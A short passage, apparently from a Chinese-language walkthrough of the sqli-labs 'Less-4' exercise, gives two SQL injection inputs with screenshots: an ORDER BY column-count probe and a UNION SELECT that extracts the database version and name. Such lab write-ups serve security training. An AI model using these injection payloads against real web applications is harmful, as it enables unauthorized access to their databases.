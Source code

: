 

+ 注入以下语句

~~~ shell
?id=1") order by 4--+
~~~

![Less-4_7](./img/Less-4_7.PNG)



+ 注入以下语句

~~~ shell
?id=-1") union select 1,version(),database()--+
~~~

![Less-4_8](./img/Less-4_8.PNG)
